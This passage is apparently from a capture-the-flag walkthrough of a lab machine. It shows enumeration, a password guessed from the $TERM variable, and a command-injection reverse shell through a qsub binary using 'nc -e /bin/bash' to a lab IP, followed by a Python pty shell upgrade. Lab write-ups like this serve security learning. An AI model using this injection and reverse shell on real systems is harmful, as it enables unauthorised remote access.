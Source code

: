 
“Bad hacker! Go away” - I think not!

Enter the `gdb`:

    which gdb

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553136833233_image.png)

![confused john travolta GIF](https://media0.giphy.com/media/2vlC9FMLSmqGs/giphy.gif?cid=3640f6095c92fcf85876424d4d70a3bf)


gdb is not local…

with continued enumeration a quick check of the variable `$TERM` yielded “screen”

re-attemped the application with “screen” as the password.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553137231011_image.png)


A new message appears stating “Welcome to the Question Submit”. Might be the password might not be, but something changed.

Attempt a reverse shell injection

    ./qsub '$(nc -e /bin/bash 192.168.213.130 444)'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553137501083_image.png)


and we have a call back!

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553137525532_image.png)


we are now the user pinky!

Spawn proper shell with python:

    python -c "import pty;pty.spawn('/bin/bash')"

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553137598332_image.png)


Investigate pinky home directory:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553202166053_image.png)


messages from `qsub` were being sent to `messages` directory.

Since there is no sudo we can have a look at what pinky is able to touch with `find`.

    find / -user pinky

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553202450436_image.png)


*a lot of “permission denied” and nothing of use.*

